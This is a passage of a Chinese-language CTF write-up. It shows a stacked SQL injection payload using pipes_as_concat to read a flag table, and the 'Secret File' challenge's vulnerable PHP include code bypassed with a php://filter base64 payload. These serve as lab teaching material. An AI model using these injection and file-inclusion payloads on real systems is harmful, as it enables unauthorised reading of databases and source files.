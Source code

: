 `1;set sql_mode=pipes_as_concat;select 1`

```
select 1;set sql_mode=pipes_as_concat;select 1 ||flag from Flag;
执行两次查询，后一次select 1 ||flag from Flag;即把select flag from Flag;的结果和1拼接生成新一列
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220126163217854.png" alt="image-20220126163217854" style="zoom:80%;" />

[源码](http://www.xianxianlabs.com/blog/2020/05/27/355.html)，发现也是multi_query()执行多条语句产生的漏洞



## [极客大挑战 2019]Secret File

### <span style="background:#ffbbff;">考点：文件包含、伪协议</span>

1. 点击超链接跳转到Archive_room.php，点击secret超链接发现秒跳转到end.php，而不显示secret超链接的文件action.php，用burpshuite抓包，得到提示内容

![image-20220127161616536](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220127161616536.png)

2. 访问secr3t.php，发现源码

```php+HTML
<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>
```

文件包含，利用伪协议读取文件，发现过滤了php://input、data://，也不能用截断

![伪协议总结](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/15063209941952.png)

php://filter 伪协议文件包含读取源代码，加上read=convert.base64-encode，用base64编码输出，不然**会直接当做php代码执行，看不到源代码内容**（file=flag.php）

payload：

```
secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php
```

读取flag.php源码，解密得到flag
